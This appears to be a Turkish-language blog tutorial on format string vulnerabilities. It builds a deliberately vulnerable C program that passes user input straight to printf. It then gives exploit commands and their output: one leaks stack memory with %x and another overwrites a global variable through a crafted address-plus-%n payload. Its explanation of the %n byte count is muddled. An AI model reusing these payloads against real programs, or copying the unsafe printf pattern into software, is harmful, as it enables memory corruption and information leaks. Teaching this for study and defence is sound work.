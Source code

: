 ```yaml
---
title: Format String Attack
layout: post
published: true
---
```


# **Format String Nedir ?**
*Format string metin ve format parametreleri tutan bir ASCII'dir. Çoğu programlama dilinde de görebiliriz ki herhangi bir metin yazacağımız zaman bu metini  direk yazımızın içine değilde bir değişkene aktarırız, ve bu değişkenide yazımızın içerisinde format stringler aracılığıyla kullanırız.*

Format Stringleri içeren tablo:

![](https://i.imgur.com/4ZCa5cF.png)


# **Format string zafiyetini içeren fonksiyonlar**
![](https://i.imgur.com/gzbKC2S.png)



# **Örnek format string saldırısı**

**Format String zafiyetini sömürmek için kullanacağımız kodumuz: **
```
#include <stdio.h>
#include <string.h>

int hedef;


int main(int argc, char *argv[]){

		char buffer[64];
		
		strcpy(buffer, argv[1]);
		
		printf("Girdiniz: ");
		
		printf(buffer);
		
		if(hedef){
		   printf("Hedef değişkenini düzenlendi.");
		}
		printf("\n");

}
```


**Derlemek(compile) ve Çalıştırmak(run) için:**

```
gcc vuln.c -o vuln

./vuln "Merhaba Dünya"
```

------------------------------------------------------------------------
<br />
**Zafiyeti kullanarak program içerisinde Bellek Sızıntısı(Memory Leak) yaratmak.**

```
./vuln "0x%x 0x%x 0x%x 0x%x"
```

Yukarıda kullanılan "0x%x" ler baştaki "Format Stringleri içeren tablo"sundan da görebileceğiniz gibi hafıza(memory) içerisindeki diğer adresleri format string zafiyetini sömürerek yazıyoruz. Bellek sızıntısı bu şekilde oluşmuş oluyor. Buffer'e kopyaladığımız 1. argümanımız **printf** fonksiyonu tarafından kullanılmaya çalışıldığında buffere verdiğimiz "0x%x"ler çalışacak ve printf fonksiyonunun format string zafiyetinden yararlanarak bellekteki diğer adresleri gözlemleyebildik.

Ve sonucunda çıktımız(output) şu şekilde gelecektir :

```
root@blacknbunny:/home/blacknbunny# ./vuln "0x%x 0x%x 0x%x 0x%x"
Girdiniz: 0xbffff9b6 0x174 0x174 0x78257830
```

------------------------------------------------------------------------
<br />
Şimdi burdan olayımızı veriye yazmaya yani belirtilen hedef degiskenini düzenlemeye kadar nasıl götürebiliriz ? Cevabımızda aşşağıda :

```
root@blacknbunny:/home/blacknbunny# ./vuln `python -c "print('AAAA' + '\xa4\x96\x04\x08'  + 'BBBB' + '.%x'*4 + '%n')"`
Girdiniz: AAAABBBB.bffff9af.bffff7a8.b7eada75.41414141hedef degiskeni duzenlendi
```

Çıktımızda da gördüğümüz gibi hedef değişkenini yukarıda parametre olarak verdiğimiz python command-line girdisi ile düzenledik. Peki bunu nasıl başardık yani sadece küçük bir **printf** fonksiyonundan hafıza(memory) içerisindeki leak'ten corruption'a yani hafızayı bozmaya ya da düzenlemeye kadar gidebildik ?

İlk önce 4 bytelık bir veri verdik. Buda "AAAA" oluyor.

Sonrasında alttaki komutumuz ile **hedef** değişkenimizin adresini **0x80496a4** olarak bulduk ve 2. olarak python command-line girdimize onu verdik. :

```
root@blacknbunny:/home/blacknbunny# objdump -t ./vuln

...
00000000       F *UND*  00000000              printf@@GLIBC_2.0
0804969c g       *ABS*  00000000              __bss_start
080496a8 g       *ABS*  00000000              _end
```
**080496a4** g     O .bss   00000004              hedef
```
0804969c g       *ABS*  00000000              _edata
...
```

Ve 3. olarak 4 bytelık "BBBB"mizi verdik ki hedefin üzerine "BBBB" yi kullanarak "%n" format string'i ile yazabilelim. %n'in ne olduğunu bilmiyorsanız en üstte bulunan "Format Stringleri içeren tablo"suna da bakabilirsiniz.

------------------------------------------------------------------------
<br />
Başta da memoryi leak etmemizi sağlayan "%x" format stringini hatırlıyorsunuzdur. Onuda en sona koyduk ki bu işlemleri yaparken hafızamızı yani memoryi gözlemleyebilelim.

Sonrasında da "%n" format stringimizi "0x80496a4BBBB.%x.%x.%x.%x%n" metininin toplam byte sayısını **hedef** değişkeninin üzerine yazmak için kullandık.

Toplam byte sayısını hesaplamak için : 

```
4 = "AAAA"

4 = "0x80496a4" # int hedef; değişkenimizin adresi

4 = "BBBB"

4 = ".%x."

4 = "%x.%"

4 = "x.%x"

------------------------------------------------------------------------


"AAAA" *  "0x80496a4"

4 * 4 = 16

"BBBB" * ".%x."

4 * 4 = 16

"%x.%" *  "x.%x"

4*4 = 16

16 + 16 = 48
```

Bu da demek oluyor ki **int target;** değişkenimizin üzerine 48 yazmışız ki bunun da hex karşılığı 0x30 oluyor.

Tam olarak **int target;** değişkenimizin üzerinde memory(hafıza) içerisinde **0x30** mevcut.



**References:**

[OWASP](https://www.owasp.org/index.php/Format_string_attack)

[Geeksforgeeks](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/)

[Man page](https://linux.die.net/man/3/printf)

[Wikipedia](https://en.wikipedia.org/wiki/Printf_format_string)
